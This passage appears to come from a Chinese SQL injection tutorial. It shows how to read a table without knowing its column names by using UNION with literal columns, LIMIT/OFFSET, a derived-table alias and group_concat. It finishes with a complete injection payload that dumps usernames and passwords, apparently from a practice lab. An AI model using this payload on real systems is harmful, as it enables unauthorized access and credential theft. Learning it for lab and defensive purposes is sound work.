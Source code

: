 在保证列数相同的前提下，使用UNION子句不会改变返回结果的列名。为了过滤掉第一行无用的数据，我们使用LIMIT或OFFSET子句：

```sql
mysql> select 'abc',123,000 union select * from users;
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | abc | 123      | 0     |
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    3 rows in set (0.00 sec)
    
mysql> select 'abc',123,000 union select * from users limit 1,999999; # 过滤第0行,取后续足够多的行
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    2 rows in set (0.00 sec)
    
mysql> select 'abc',123,000 union select * from users limit 999999 offset 1; # 从1行开始，后取足够多的行
    +-----+----------+-------+
    | abc | 123      | 000   |
    +-----+----------+-------+
    | 1   | Dumb     | admin |
    | 2   | Angelina | root  |
    +-----+----------+-------+
    2 rows in set (0.00 sec)
```

这里我们已经拿到了想要的数据，并且绕过了列名。接下来需要将这次的返回结果作为子查询，由外层的SELECT子句筛选我们想要的值：

```mysql
mysql> select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;
	# 必须给子查询指定别名，这里用的别名是a，否则报错：ERROR 1248 (42000): Every derived table must have its own alias
	# group_concat调用数字类型的列名时必须加反引号进行转置，否则列名会被解析成数字字符串，而不是对应的列
    +-------------------+---------------------+------------------------+
    | group_concat(abc) | group_concat(`123`) | group_concat(`000`)    |
    +-------------------+---------------------+------------------------+
    | 1,2               | Dumb,Angelina       | admin,root             |
    +-------------------+---------------------+------------------------+
    1 row in set (0.00 sec)
```

最终构造Payload：`' and 1=0 union select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;# `

```sql
mysql> select * from users where username='' and 1=0 union select group_concat(abc),group_concat(`123`),group_concat(`000`) from (select 'abc',123,000 union select * from users limit 1,999999)a;
    +-------------------+---------------------+------------------------+
    | group_concat(abc) | group_concat(`123`) | group_concat(`000`)    |
    +-------------------+---------------------+------------------------+
    | 1,2               | Dumb,Angelina       | admin,root             |
    +-------------------+---------------------+------------------------+
    1 row in set (0.00 sec)
```
